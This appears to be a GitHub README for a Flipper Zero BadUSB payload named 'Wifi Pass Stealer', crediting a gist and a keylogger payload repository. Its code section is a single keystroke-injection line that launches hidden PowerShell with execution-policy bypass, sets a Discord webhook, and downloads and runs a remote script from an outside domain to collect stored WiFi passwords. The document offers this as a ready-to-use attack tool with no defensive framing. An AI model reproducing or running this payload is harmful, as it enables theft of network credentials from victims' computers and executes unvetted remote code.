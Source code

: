# FlipperZeroWifiPassStealer
Flipper Zero Wifi Pass Stealer

## Credits

This project was inspired by and based on [AlexZeGamer's Gist](https://gist.github.com/AlexZeGamer/c7269927335d152cc28d31022c00882e). Many thanks to the original author for their work!

https://github.com/I-Am-Jakoby/Flipper-Zero-BadUSB/tree/main/Payloads/Flip-Keylogger

## Code

STRINGLN powershell -w h -ep bypass $discord='<your_webhook_here>';irm link.wmlsandaruwan.online/AllWiFiPassInOne | iex
